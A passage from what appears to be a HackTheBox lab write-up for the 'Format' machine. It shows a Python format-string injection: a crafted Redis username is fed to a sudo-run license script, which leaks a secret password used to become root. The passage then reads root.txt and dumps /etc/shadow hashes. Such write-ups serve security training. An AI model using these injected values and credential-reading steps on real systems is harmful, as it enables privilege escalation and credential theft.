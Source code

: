 ```python
    print("")
    print("Plaintext license key:")
    print("------------------------------------------------------")
...
```

The username is retrieved from Redis, and if we modify it, we can use Python's format string:
[Python format string vulnerabilities · Podalirius](https://podalirius.net/en/articles/python-format-string-vulnerabilities/)

![alt text](https://github.com/col-1002/Write-ups/blob/main/HackTheBox%20Main%20Machine/Medium/Format/Pasted%20image%2020230518005139.png)

We change the username in `Redis` 
```bash
redis-cli -s /var/run/redis/redis.sock  
hset hacker username {license.__init__.__globals__}  
```

```bash
#cooper@format:~$ sudo /usr/bin/license -p hacker
#[sudo] password for cooper: 

Plaintext license key:
------------------------------------------------------
microblog{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f143ae83970>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/usr/bin/license', '__cached__': None, 'base64': <module 'base64' from /u
<SNIP>
, '__warningregistry__': {'version': 0}, 'secret': 'unCR4ckaBL3Pa$$w0rd', 'secret_encoded': b'unCR4ckaBL3Pa$$w0rd', 'salt': b'microblogsalt123', 'kdf': <cryptography.hazmat.primitives.kdf.pbkdf2.PBKDF2HMAC object at 0x7f143987c070>, 'encryption_key': b'nTXlHnzf-z2cR0ADCHOrYga7--k6Ii6BTUKhwmTHOjU=', 'f': <cryptography.fernet.Fernet object at 0x7f143987c490>, 'l': <__main__.License object at 0x7f143987ca00>, 'user_profile': {b'username': b'{license.__init__.__globals__}', b'password': b'password', b'first-name': b'loc', b'last-name': b'loc', b'pro': b'false'}, 'existing_keys': <_io.TextIOWrapper name='/root/license/keys' mode='r' encoding='UTF-8'>, 'all_keys': ['cooper.dooper:gAAAAABjZbN1xCOUaNCV_-Q12BxI7uhvmqTGgwN12tB7Krb5avX5JdSzE2dLKX53ZpHxHrzpNnAwQ6g1FTduOtBAl4QYRWF27A2MPfedfMzgNZrv_VqUwCAfzGZeoQCv1-NBIw6GaoCA0yIMPl0o3B6A2_Hads32AsdDzOLyhetqrr8HUgtLbZg=\n'], 'user_key': 'cooper.dooper:gAAAAABjZbN1xCOUaNCV_-Q12BxI7uhvmqTGgwN12tB7Krb5avX5JdSzE2dLKX53ZpHxHrzpNnAwQ6g1FTduOtBAl4QYRWF27A2MPfedfMzgNZrv_VqUwCAfzGZeoQCv1-NBIw6GaoCA0yIMPl0o3B6A2_Hads32AsdDzOLyhetqrr8HUgtLbZg=\n', 'prefix': 'microblog', 'username': '{license.__init__.__globals__}', 'firstlast': 'locloc'}6)zI1y/FeNn*:_KH}<(e-5/^W}AQk3FcA@Ao{e`1locloc
```

secret: `unCR4ckaBL3Pa$$w0rd`

##### Root
```bash
cooper@format:~$ su root
Password: #unCR4ckaBL3Pa$$w0rd

root@format:/home/cooper# cd

root@format:~# cd /root

root@format:~# ls
license  reset	root.txt

root@format:~# cat root.txt
31b43f9d5acdea16d28012b35b533f35

root@format:~# cat /etc/shadow
root:$y$j9T$tYoCSn/hikACa4FLjkFxx/$vg7mvtDQNyfOazsy/RpEgxOzAzSktNbOiJWZkTr9ynD:19443:0:99999:7:::
daemon:*:19298:0:99999:7:::
bin:*:19298:0:99999:7:::
sys:*:19298:0:99999:7:::
```